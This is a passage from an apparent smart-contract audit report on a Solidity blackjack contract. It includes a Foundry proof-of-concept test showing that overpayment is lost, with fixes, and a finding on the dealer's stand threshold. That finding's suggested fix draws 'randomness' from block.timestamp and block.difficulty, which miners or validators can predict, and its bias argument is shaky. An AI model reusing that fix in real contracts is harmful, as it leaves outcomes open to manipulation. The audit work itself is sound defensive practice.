function testUserCanSendMoreThenOneEtherToPlayButWillWinOnly2Ether()
    public
{
    uint256 userStartedBalance = player1.balance;
    uint256 contractStartedBalance = address(twentyOne).balance;

    vm.startPrank(player1);
    twentyOne.startGame{value: 3 ether}();
    uint256 userMidBalance = player1.balance;
    uint256 contractMidBalance = address(twentyOne).balance;
    twentyOne.call();
    vm.stopPrank();

    uint256 userEndedBalance = player1.balance;
    uint256 contractEndedBalance = address(twentyOne).balance;
    console.log("userStartedBalance: ", userStartedBalance);
    console.log("userMidBalance: ", userMidBalance);
    console.log("userEndedBalance: ", userEndedBalance);
    console.log("contractStartedBalance: ", contractStartedBalance);
    console.log("contractMidBalance: ", contractMidBalance);
    console.log("contractEndedBalance: ", contractEndedBalance);
    assertNotEq(userStartedBalance - userEndedBalance, 2e18);
    assertNotEq(contractEndedBalance - contractStartedBalance, 0e18);
}
```

Output:

```bash
Ran 1 test for test/TwentyOne.t.sol:TwentyOneTest
[PASS] testUserCanSendMoreThenOneEtherToPlayButWillWinOnly2Ether() (gas: 1160391)
Logs:
  userStartedBalance:  10000000000000000000
  userMidBalance:  7000000000000000000
  userEndedBalance:  9000000000000000000
  contractStartedBalance:  10000000000000000000
  contractMidBalance:  13000000000000000000
  contractEndedBalance:  11000000000000000000
```

From the logs, we see:

- The user started with 10 ether and ended with 9 ether after winning, losing the excess 1 ether they sent to start the game.
- The contract balance shows the excess 1 ether added to it.

The issue stems from the `startGame()` function accepting `msg.value >= 1 ether` instead of enforcing `msg.value == 1 ether`.

## Code Behavior

Relevant function snippets:

1. **`startGame()`**

   - Accepts any value greater than or equal to 1 ether.
   - Does not refund or enforce exact ether for starting the game.

2. **`endGame()`**

   - Transfers a hardcoded 2 ether as winnings regardless of the initial `msg.value`.

```solidity
function endGame(address player, bool playerWon) internal {
    delete playersDeck[player].playersCards;
    delete dealersDeck[player].dealersCards;
    delete availableCards[player];
    if (playerWon) {
        payable(player).transfer(2 ether); // Transfer the prize to the player
        emit FeeWithdrawn(player, 2 ether); // Emit the prize withdrawal event
    }
}
```

## Impact

1. **Financial Loss for Player:**

   - Players can lose any excess ether sent beyond 1 ether when starting the game.
   - In the test case, the player sent 3 ether and lost 1 ether even after winning the game.

2. **Inconsistent Game Logic:**

   - The betting logic contradicts the intended behavior of betting 1 ether and winning 2 ether.

3. **Unfair Advantage to Contract:**

   - Excess ether sent by players is retained in the contract, leading to unintended financial gains for the contract.

## Tools Used

- **Forge (Foundry):** Used to run and validate test cases.
- **EVM Error Logs:** Inspected transaction traces and logs to confirm unexpected ether retention.
- **Manual Code Review:** Identified the lack of `msg.value` validation in `startGame()`.

## Recommendations

1. **Enforce Exact Betting Amount in `startGame()`:** Update the `startGame()` function to ensure players can only bet exactly 1 ether. This can be done as follows:

```solidity
function startGame() public payable returns (uint256) {
    require(
        address(this).balance >= 2 ether,
        "Not enough ether on contract to start game"
    );
    require(msg.value == 1 ether, "start game only with 1 ether");

    address player = msg.sender;
    initializeDeck(player);
    uint256 card1 = drawCard(player);
    uint256 card2 = drawCard(player);
    addCardForPlayer(player, card1);
    addCardForPlayer(player, card2);
    return playersHand(player);
}
```

2. **Revert for Incorrect Ether Amounts:** Any transaction sending more or less than 1 ether should revert with an appropriate error message.
3. **Test New Logic:** Write additional test cases to confirm the contract reverts if `msg.value` is not exactly 1 ether.
4. **Documentation Update:** Clearly document the betting rules for players, emphasizing the requirement to send exactly 1 ether.

By implementing these changes, the game will maintain fairness and align with its intended logic, avoiding unintended ether loss for players.

### [L-4] Potential Bias in Dealer Behavior Due to Stand Threshold Logic in call() Function

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The `call()` function of the `TwentyOne` smart contract introduces an issue where the dealer's likelihood of busting is disproportionately low due to the implementation of a deterministic stopping condition (`standThreshold`) in the range of 17–21. This condition skews the game in favor of the dealer, reducing the player's chances of winning.

## Vulnerability Details

### Problematic Code

The following segment from the `call()` function sets a threshold for the dealer's hand and enforces a drawing rule:

```solidity
uint256 standThreshold = (uint256(
    keccak256(
        abi.encodePacked(block.timestamp, msg.sender, block.prevrandao)
    )
) % 5) + 17;

while (dealersHand(msg.sender) < standThreshold) {
    uint256 newCard = drawCard(msg.sender);
    addCardForDealer(msg.sender, newCard);
}
```

### This threshold (`standThreshold`) is randomized within a range of 17 to 21. The dealer draws cards until their hand reaches or exceeds this value. However:

1. The dealer stops drawing as soon as their hand equals or exceeds `standThreshold`.
2. If the dealer exceeds 21 during this process, they bust—but the limited range (17–21) minimizes the likelihood of this happening.

### Dealer Advantage

- The threshold range biases the game against the player by ensuring the dealer rarely draws enough cards to bust.
- This creates an imbalanced game design where the dealer has a statistically lower risk of losing compared to the player, who must actively avoid busting at all stages.

## Impact

- The biased `standThreshold` implementation diminishes fairness in gameplay by heavily favoring the dealer. This issue could lead to:

  1. **Reduced Trust**: Players may perceive the game as rigged or unfair.
  2. **Financial Loss**: Players are more likely to lose their wager due to the imbalance.
  3. **Reputational Damage**: The protocol risks losing credibility due to unfair game mechanics.

## Tools Used

1. Manual Review of Code
2. Logical and Statistical Analysis of Gameplay Rules

## Recommendations

### Fix 1: Introduce Probabilistic Bust Behavior for Dealer

Allow the dealer to draw beyond 21 under certain conditions. For example:

- Increase randomness in the `standThreshold` or reduce its lower bound (e.g., 15–21 instead of 17–21).

### Fix 2: Dynamically Adjust the Dealer's Risk Profile

Modify the dealer's behavior to more closely mimic real blackjack gameplay:

- Allow the dealer to draw cards without an explicit threshold but instead use a probabilistic stopping condition based on the player's hand.
- Example: The dealer should stop drawing if the risk of busting exceeds a certain probability (e.g., 50%).

### Fix 3: Balance Gameplay for Fairness

Introduce a compensation mechanism for the player to offset the dealer's reduced risk:

- Provide players with additional options (e.g., doubling down, splitting cards, or receiving bonuses).
- Increase the player's reward if the dealer wins with a hand close to 21.

### Code Adjustment

Here is a simplified suggestion for increasing dealer fairness:

```solidity
while (dealersHand(msg.sender) < standThreshold || (dealersHand(msg.sender) <= 21 && randomBustChance())) {
    uint256 newCard = drawCard(msg.sender);
    addCardForDealer(msg.sender, newCard);
}

// Introduce a random bust chance for the dealer
function randomBustChance() internal view returns (bool) {
    uint256 chance = uint256(keccak256(abi.encodePacked(block.timestamp, block.difficulty))) % 100;
    return chance < 20; // 20% chance for the dealer to continue drawing even if close to busting
}
```
